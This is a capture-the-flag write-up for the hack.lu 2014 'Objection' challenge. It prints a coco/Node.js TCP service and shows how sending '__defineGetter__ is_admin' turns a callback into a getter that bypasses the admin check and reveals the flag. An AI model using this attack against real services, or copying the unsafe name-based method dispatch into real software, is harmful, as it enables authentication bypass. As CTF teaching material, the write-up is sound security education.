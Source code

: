 ```yaml
---
title: 'hack.lu CTF 2014: Objection'
date: 2014-10-26 00:00:00 Z
categories:
- writeup
tags:
- tech/nodejs
- lang/javascript
layout: post
author: f0rki
---
```


## Write-up

So we got the source for something that looked like CoffeeScript, but had
really strange string literals. After some investigation I found out, that
this was in fact [coco](https://github.com/satyr/coco) source code.
Coco in turn is a fork of [CoffeeScript](http://coffeescript.org/). Both
compile to JavaScript.
The service allows you to login with the admin password that is read from a
file. If the user is authenticated as admin, he can read the secret token
using the get_token function. The following source file was provided.

```coffeescript
const net = require \net
const BufferStream = require \bufferstream

admin_password = (require \fs).readFileSync \admin_password, \utf8


server = net.createServer (con) ->
  console.log 'client connected'
  con.write 'hello!\n'
  client_context =
    is_admin: false
    token: (require \fs).readFileSync \secret_token, \utf8
    login: ([password], cb) ->
      if password == admin_password
        cb "Authentication successful  " + password
        @is_admin = true
      else
        cb "Authentication failed  " + password
    get_token: ([], cb) ->
      if not @is_admin then return cb "You are not authorized to perform this action."
      cb "The current token is #{@token}"
  console.log client_context
  in_stream = new BufferStream {encoding:\utf8, size:\flexible}
  con.pipe in_stream
  <- in_stream.split \\n
  it .= toString \utf8
  console.log "got line: #{it}"
  [funcname, ...args] = it.split ' '
  if typeof client_context[funcname] != \function
    return con.write "error: unknown function #funcname\n"
  client_context[funcname] args, ->
    con.write "#it\n"

server.listen 1408, ->
  console.log 'server bound'
```

The whole thing is a kind of sandbox escape, since the command are implemented
by calling methods on the 'client_context' object. The input string is split on
the space character and the first token is the function name. So we can
actually call an arbitrary function on the object. All further tokens are
passed as a string array. So we cannot inject code or something like that.
But wait, let's look at how the the methods of the object are called exactly.

    client_context[funcname] args, ->
      con.write "#it\n"

First the function is accessed via the name as a string. args is an array of
strings. Then a callback function is passed as the last argument. The '->'
arrow is CoffeeScript/coco shorthand for defining a function. The '#it' in the
string is syntax for string expansion using the 'it' variable. Because this
variable isn't declared anywhere in the function body coco infers that it must
be an argument to the function. As you can see in this example:

    $ coco -bce '-> console.log "#it\n"'
    (function(it){
      return console.log(it + "\n");
    });

Now to the interesting part: how to get the flag. Let's have a look what
functions a plain object in JavaScript has. So let's fire up a node.js
interpreter and poke around a little bit by hitting tab.

    > x = {}
    {}
    > x.
    x.__defineGetter__      x.__defineSetter__      x.__lookupGetter__      x.__lookupSetter__
    x.constructor           x.hasOwnProperty        x.isPrototypeOf         x.propertyIsEnumerable
    x.toLocaleString        x.toString              x.valueOf


[__defineGetter__](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Object/__defineGetter__)
seems useful, since the properties 'is_admin' and 'token'
are accessed (you can spot properties in CoffeeScript and coco by the @
prefix). It expects the following arguments

    obj.__defineGetter__(sprop, fun)

Where sprop is the property name and fun is the getter function. This matches
exactly the call of the function in the source file we got. So we can pass the
anonymous callback function as a getter. Since this function takes an argument
'in' as parameter, calling the function without any argument results in 'it'
just being undefined. Concatenating an undefined variable with a string
results in the string "undefined" + the other string. So let's define the
getter for 'is_admin' by sending the following string to the service.

    __defineGetter__ is_admin

Now if is_admin is accessed, instead the anonymous callback function is
called. Remember it looks like this in CoffeeScript

    -> con.write "#it\n"

In CoffeeScript/coco the last expression is also the return value of a
function. The anonymous function compiled to JavaScript looks like this:

    function(it){
        return con.write(it + "\n");
    }

This means this anonymous function will return the return value of the 'write'
method of the con object, which is an socket object. The
[socket.write](https://nodejs.org/api/net.html#net_socket_write_data_encoding_callback).
function will return true if the entire data was flushed to the kernel buffer.
Since we only write the string "undefined\n", chances are pretty good this will
happen. So accessing the 'is_admin' property will in fact call this anonymous
callback function and return 'true'. On the way it will write "undefined\n",
but this doesn't matter since we are suddenly admin :)

    hello!
    __defineGetter__ is_admin
    get_token
    undefined
    The current token is flag{real_cowboys_dont_use_object_create_null}


Hooray :)
